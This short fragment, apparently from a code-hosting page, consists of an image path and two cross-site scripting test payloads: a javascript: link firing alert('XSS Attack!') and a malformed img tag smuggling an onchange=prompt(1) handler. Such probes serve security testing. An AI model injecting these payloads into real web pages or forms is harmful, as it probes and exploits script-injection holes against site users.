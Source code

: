 # <a href="javascript:alert('XSS Attack!');">Click me</a>
<a href=img src='https://in.pinterest.com/pin/932245191599758496 onchange=prompt(1)></a>>

